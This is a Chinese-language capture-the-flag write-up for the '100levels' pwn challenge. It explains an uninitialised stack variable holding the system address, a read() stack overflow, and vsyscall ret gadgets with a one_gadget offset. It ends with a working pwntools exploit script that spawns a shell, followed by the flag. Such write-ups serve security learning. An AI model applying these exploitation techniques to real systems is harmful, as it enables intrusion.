



# 1000levevls

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=15fbd5a5-5caa-4fb2-b1b9-fd7b8654754e_2&task_category_id=2)

现在堆完爆栈，做了几道堆题回来看栈题的wp竟然都不费劲了。然而还是没法自己做出来。

-   Arch:     amd64-64-little
    <br>RELRO:    Partial RELRO
    <br>Stack:    No canary found
    <br>NX:       NX enabled
    <br>PIE:      PIE enabled

顺便提一句，下载下来的附件叫100levels，后面看代码内容也是100levels，那这个题目是什么意思呢(而且好像写错了？）

```c
undefined8 Main(void)
{
  int iVar1;
  Setup();
  PrintTitle();
  while( true ) {
    while( true ) {
      PrintMenu();
      iVar1 = GetInput();
      if (iVar1 != 2) break;
      Hint();
    }
    if (iVar1 == 3) break;
    if (iVar1 == 1) {
      Go();
    }
    else {
      puts("Wrong input");
    }
  }
  GiveUp();
  return 0;
}
```

菜单题，不过这次不是堆。先看hint，有提示不看大傻子。



ghidra解释字符串不太行，这些16进制翻译过来或者运行一下就能知道内容是NO PWN NO FUN。没啥用，pwn题不pwn还能干啥呢？不过有一个可疑的地方，PTR_system_00301fd0是干什么的？这里似乎不可能被调用，但看汇编会发现PTR_system_00301fd0无论如何都会被存到rbp-0x110的地方。有猫腻啊，看看别的函数。

```c
void Go(void)
{
  int iVar1;
  long lVar2;
  time_t tVar3;
  time_t tVar4;
  long local_118;
  ulong local_110;
  char local_108 [256];
  puts("How many levels?");
  lVar2 = GetInput();
  if (lVar2 < 1) {
    puts("Coward");
    lVar2 = local_118;
  }
  local_118 = lVar2;
  puts("Any more?");
  lVar2 = GetInput();
  local_110 = lVar2 + local_118;
  if (0 < (long)local_110) {
    if (99 < (long)local_110) {
      puts("You are being a real man.");
      local_110 = 100;
    }
    puts("Let\'s go!\'");
    tVar3 = time((time_t *)0x0);
    iVar1 = Level(local_110 & 0xffffffff);
    if (iVar1 == 0) {
      puts("You failed.");
    }
    else {
      tVar4 = time((time_t *)0x0);
      sprintf(local_108,"Great job! You finished %d levels in %d seconds\n",local_110,
              (ulong)(uint)((int)tVar4 - (int)tVar3));
      puts(local_108);
    }
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Coward Coward Coward Coward Coward");
  return;
}
```

这里ghidra和ida的反编译简直天差地别。放一张看的[wp](https://blog.csdn.net/seaaseesa/article/details/102984101)的ida同函数截图。



ida中可以很清楚地看出来“当输入的levels（lVar2）小于等于0，那么local_118不会被初始化”这个逻辑。在ghidra里就有点云里雾里。ghidra里的判断条件正好相反，所以if和else语句也相反。这倒是没啥，但是if里面lVar2 = local_118;是啥意思呢？这可能没有太大的影响，后面local_118 = lVar2;才真的扰乱判断。无论怎么输入，local_118都会等于lVar2，跟这道题的关键点不符，因此做出来的希望渺茫（我已经很菜了结果ghidra又整这么一套）。

所以这道题的关键是啥呢？还记得rbp-0x110存着system的地址吗？hint和go函数是在同一个函数中被调用的，所以它们rbp的值是同一个。ghidra里面变量的命名是相对于返回地址的，因此Go函数中local_118就对应着hint函数中的rbp-0x110。如果local_118没有被初始化，那么这里面就会存着system的地址。接着还有lVar2 = GetInput();和local_110 = lVar2 + local_118;这两行代码，lVar2我们可以随意控制，local_118是system地址，那么local_110就可以表达任意地址，lVar2是任意地址相对local_118的偏移。有进展了，继续往下。

```c
undefined8 Level(uint param_1)
{
  int iVar1;
  undefined8 uVar2;
  long lVar3;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  int local_14;
  uint local_10;
  uint local_c;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  if (param_1 == 0) {
    uVar2 = 1;
  }
  else {
    iVar1 = Level(param_1 - 1);
    if (iVar1 == 0) {
      uVar2 = 0;
    }
    else {
      iVar1 = rand();
      local_c = iVar1 % (int)param_1;
      iVar1 = rand();
      local_10 = iVar1 % (int)param_1;
      local_14 = local_c * local_10;
      puts("====================================================");
      printf("Level %d\n",(ulong)param_1);
      printf("Question: %d * %d = ? Answer:",(ulong)local_c,(ulong)local_10);
      read(0,&local_38,1024);
      lVar3 = strtol((char *)&local_38,(char **)0x0,10);
      if (lVar3 == local_14) {
        uVar2 = 1;
      }
      else {
        uVar2 = 0;
      }
    }
  }
  return uVar2;
}
```

read(0,&local_38,1024);这行代码的栈溢出可太明显了，但问题在于pie开启后我们无法rop了，因为不知道要返回的准确地址。慢着，这个函数由Go调用，那么其栈帧和Go的应该是挨着的。Go里面有个system，有没有办法让返回地址往Go的栈帧滑过去一点，这样不就能getshell了吗？

一般情况下可以用pop，但是这里连pop也没法用，还是pie的问题。retn也行，因为retn相当于POP eip，还是pop了一下。有没有什么gadget带着retn且地址不会变的？

确实有，叫Vsyscall，用于系统调用，它的地址固定在0xffffffffff600000-0xffffffffff601000。虽然vsyscall是系统调用，但是没办法返回到中间，要求必须从头开始，否则会报错。



不过从0xffffffffff600000开始也没关系，反正最后都会retn的，没有多大影响。来三个就可以把返回地址偏移24个字节，就到了local_110的位置。

这就结束了？并没有。64位系统靠寄存器传参，没有gadget根本没法输入/bin/sh。那我们直接找one_gadget，一发入魂。用one_gadget工具在给的libc里找找看，能找到0x4526a这个gadget。0x4526a-system地址得到两者的偏移。偏移肯定是大于100的，不过Go里面有行代码会把大于100的数字控制在100，所以我们只需要玩100次游戏就好了。

```python
from pwn import *  
sh = remote('61.147.171.105',64329)
vsyscall = 0xffffffffff600000  
system_addr = 283536
one_gadget = 0x4526a  
offset_addr = one_gadget - system_addr  
sh.sendlineafter('Choice:\n','2')  
sh.sendlineafter('Choice:\n','1')  
sh.sendlineafter('How many levels?\n','0')  
sh.sendafter('Any more?\n',str(offset_addr))  
for i in range(0,99):  
   sh.recvuntil('Question: ')  
   a = int(sh.recvuntil(' '))  
   sh.recvuntil('* ')  
   b = int(sh.recvuntil(' '))  
   sh.sendlineafter('Answer:',str(a*b))  
payload = b'a'*0x38 + p64(vsyscall)*3  
sh.sendafter('Answer:',payload)  
sh.interactive()
```

- ### Flag
  > cyberpeace{0679d63beb7c424915a381bc628a092f}